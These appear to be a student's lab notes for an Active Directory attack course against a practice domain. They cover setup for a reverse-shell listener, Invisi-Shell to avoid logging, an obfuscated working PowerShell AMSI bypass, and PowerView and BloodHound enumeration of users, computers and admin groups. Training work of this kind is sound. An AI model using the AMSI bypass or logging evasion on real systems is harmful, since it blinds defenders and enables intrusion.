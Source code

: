 
## Instructions
* All commands is running by PowerView
* Please remember to turn-off or add an exception to your student VMs firewall when your run listener for a reverse shell
* Using Invisi-Shell to avoid enhanced logging
* AMSI bypass
```
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Objective 1
```
Enumerate following for the dollarcorp domain:
− Users
− Computers
− Domain Administrators
− Enterprise Administrators
• Use BloodHound to identify the shortest path to Domain Admins in the dollarcorp domain.
• Find a file share where studentx has Write permissions.
```
### Invisi-Shell
* C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

### Return all users or specific user objects in AD
* Get-DomainUser
* Get-DomainUser | select -ExpandProperty samaccountname

### Member computers
* Get-DomainComputer | select -ExpandProperty dnshostname
```
dcorp-dc.dollarcorp.moneycorp.local
dcorp-mssql.dollarcorp.moneycorp.local
dcorp-ci.dollarcorp.moneycorp.local
dcorp-mgmt.dollarcorp.moneycorp.local
dcorp-appsrv.dollarcorp.moneycorp.local
dcorp-adminsrv.dollarcorp.moneycorp.local
dcorp-sql1.dollarcorp.moneycorp.local
```

### Details of the Domain Admins group 
* Get-DomainGroup -Identity "Domain Admins"

### Enumerate members of the Domain Admins group
* Get-DomainGroupMember -Identity "Domain Admins"
* Get-DomainGroupMember -Identity "Enterprise Admins"
* Get-DomainGroupMember -Identity "Enterprise Admins" -Domain moneycorp.local
